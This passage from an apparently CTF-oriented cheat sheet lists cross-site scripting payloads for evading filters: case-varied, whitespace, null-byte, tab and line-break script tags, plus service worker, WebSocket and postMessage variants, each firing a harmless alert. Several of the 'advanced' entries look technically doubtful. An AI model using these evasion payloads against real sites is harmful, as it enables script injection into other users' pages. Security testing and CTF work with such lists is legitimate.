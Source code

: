 ### Filter Bypass Polyglots
37. **Case Variation Script**  
    ```
    <ScRiPt>alert('CTF')</ScRiPt>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Bypasses case-sensitive filters.

38. **Whitespace Bypass**  
    ```
    <script >alert('CTF')</script>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests whitespace tolerance in parsers.

39. **Null Byte Injection**  
    ```
    <script%00>alert('CTF')</script>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests null byte filter evasion.

40. **Tab Injection**  
    ```
    <script\t>alert('CTF')</script>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests tab character bypass.

41. **Line Break Injection**  
    ```
    <script
    >alert('CTF')</script>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests line break tolerance.

### Advanced Web API Polyglots
42. **Service Worker Hijack**  
    ```
    navigator.serviceWorker.register('data:application/javascript,alert("CTF")')
    ```
    - **Contexts**: JavaScript, Service Worker.
    - **Use Case**: Tests service worker registration.

43. **WebSocket Injection**  
    ```
    new WebSocket('ws://example.com/alert("CTF")')
    ```
    - **Contexts**: JavaScript, WebSocket.
    - **Use Case**: Tests WebSocket URL handling.

44. **PostMessage Exploit**  
    ```
    postMessage('alert("CTF")','*')
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests cross-window messaging.
